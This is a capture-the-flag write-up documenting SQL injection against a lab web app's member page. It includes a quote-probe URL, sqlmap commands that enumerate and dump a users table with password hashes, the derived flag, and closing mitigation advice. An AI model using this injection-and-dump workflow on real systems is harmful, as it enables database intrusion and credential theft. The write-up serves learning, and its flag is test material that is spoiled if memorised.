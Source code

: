 # SQL injection
The member page [http://10.203.72.119/?page=member](http://10.203.72.119/?page=member "member page") is vunerable to ***sql injection***

## Method
If we submit a ***'*** as the member id 
[http://10.203.72.119/?page=member&id=%27&Submit=Submit#](http://10.203.72.119/?page=member&id=%27&Submit=Submit#)
. We will get the output below.

*'' You have an error in your SQL syntax; check the manual that corresponds to your MySQL server version for the right syntax to use near '\'' at line 1 ''*

We can then use ***sqlmap***, which with this command.
``` bash
sqlmap -u '10.203.72.119/?page=members&id=1'
```
We then discover that we have differnt types of sql injections that can be used to penetrate this web application, types listed as follows
1. Boolean-based blind sql
1. Error-based
1. Time-based blind
1. Union query

Futhering this process we then check the names of the databases they have, achived using the command
```bash
sqlmap -u '10.203.72.119/?page=members&id=1' --dbs
```
We then get the following output
```bash
[03:54:15] [INFO] the back-end DBMS is MySQL
back-end DBMS: MySQL >= 5.5
[03:54:15] [INFO] fetching database names
available databases [6]:
[*] information_schema
[*] Member_Brute_Force
[*] Member_guestbook
[*] Member_images
[*] Member_Sql_Injection
[*] Member_survey
```
Or we can use the command below to get a detailed database and its tables.
``` bash
sqlmap -u '10.203.72.119/?page=members&id=1' -tables
```
Which will show us that there is a table named users, and this is were all the passwords are. Below is the output for this command where we find the 
```bash
Database: Member_Sql_Injection
[1 table]
+---------------------------------------+
| users                                 |
+---------------------------------------+
```
We then look futher in the users table, to see some sensitive information, we use following command to ***dump*** the table to see whats in it.
``` bash
sqlmap -u '10.203.72.119/?page=members&id=1' -T users --dump
```
results

``` bash
Database: Member_Sql_Injection
Table: users
[4 entries]
+---------+-----------+--------+-----------+-----------+----------------+-------------------------------------------------------------------------------+----------------------------------+
| user_id | town      | planet | country   | last_name | first_name     | Commentaire                                                                   | countersign                      |
+---------+-----------+--------+-----------+-----------+----------------+-------------------------------------------------------------------------------+----------------------------------+
| 1       | Honolulu  | EARTH  | America   | Obama     | Barack Hussein | Amerca !                                                                      | 2b3366bcfd44f540e630d4dc2b9b06d9 |
| 2       | Berlin    | Earth  | Allemagne | Hitler    | Adolf          | Ich spreche kein Deutsch.                                                     | 60e9032c586fb422e2c16dee6286cf10 |
| 3       | Moscou    | Earth  | Russia    | Staline   | Joseph         | ????? ????????????? ?????????                                                 | e083b24a01c483437bcf4a9eea7c1b4d |
| 5       | 42        | 42     | 42        | GetThe    | Flag           | Decrypt this password -> then lower all the char. Sh256 on it and it's good ! | 5ff9d0165b4f92b14994e5c685cdce28 |
+---------+-----------+--------+-----------+-----------+----------------+-------------------------------------------------------------------------------+----------------------------------+
```
We then follow the instructions to decrypt the password, which decrypts to ***FortyTwo***, then lower all characters to ***fortytwo***. Then converted to sh256 will result to ***10a16d834f9b1e4068b25c4c46fe0284e99e44dceaf08098fc83925ba6310ff5*** which is the flag

## Solutions
1. Using prepared statements given that this site uses ***PHP***, prepared help the database distinguish between the ***code*** and ***user input***, by pre-compliling ***SQL*** statements to be then used as input. For ***PHP*** using ***PDO*** is one of the solutions.
1. Validating input, making use of ***regular expression*** to validate thee user input whether it matches the expected input, checking whether it contains special charcters, which would be incorrect if the input is to be a surname or name. This process can be called ***sanitization***.
1. ***Backend*** validation is very important.

